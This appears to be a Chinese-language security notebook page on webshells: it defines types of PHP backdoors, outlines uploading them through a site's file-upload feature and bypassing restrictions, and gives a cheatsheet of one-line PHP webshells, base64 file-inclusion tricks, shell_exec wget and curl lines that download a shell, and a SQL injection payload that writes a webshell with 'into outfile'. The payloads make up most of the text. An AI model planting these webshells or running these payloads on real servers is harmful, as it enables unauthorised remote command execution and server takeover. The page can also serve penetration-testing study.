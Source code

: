 ## Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。   
2. 小馬  
程式小巧   
3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  

### How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找上傳點   
* echo 一個shell到文件中執行  
* 下載 shell  
2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過 
   
### Webshell cheatsheet
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?=`$_GET[1]`;                   // <?= is used to shorten the <?php echo `blah`;
// ``就像exec不會直接顯示結果，需要echo
echo `$_GET[1]`;&1=ls

// local file inclusion
include$_GET[1];             // 中間空格可以省略
// 思路：寫入base64編碼過的shell檔，再進行解碼  <環境www>
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file

<?php shell_exec('echo 1>1');        // 1=echo 1>1
<?php shell_exec('>1');            // 1=>1

<?php shell_exec('wget -O 1.php url');    // download shell
<?php shell_exec('curl -o 1.php url');    // 預設下載index.html
```
長度限制思路：  
* 用檔名拼湊成命令,再一次ls進一個shell script[detail](https://shinmao.github.io/2018/02/20/A-tiny-shell/)
* 待續...

[system v.s. exec v.s. shell_exec](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)  
**基本上除了system都不會直接show在頁面上，exec()和shell_exec()我們都會搭個echo**

### SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Ref  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
* [七字短shell](http://wonderkun.cc/index.html/?p=524%EF%BC%88%E9%80%9A%E8%BF%87)
